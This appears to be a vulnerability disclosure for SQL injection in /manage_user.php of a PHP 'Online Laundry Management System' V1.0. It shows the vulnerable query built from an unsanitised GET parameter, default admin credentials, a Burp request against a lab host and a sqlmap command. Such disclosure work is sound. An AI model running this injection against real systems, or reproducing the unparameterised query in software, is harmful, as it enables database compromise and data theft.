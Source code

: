 ## Online Laundry Management System

## SQL Injection on `/manage_user.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/manage_user.php
```

The potential injection point is located in `manage_user.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
include('db_connect.php');
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".$_GET['id']);
foreach($user->fetch_array() as $k =>$v){
	$meta[$k] = $v;
}
}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_user.php?id=1 HTTP/1.1
Host: 192.168.150.131
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close


```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot**

![image-20240510175425220](./screenshot/image-20240510175425220.png)
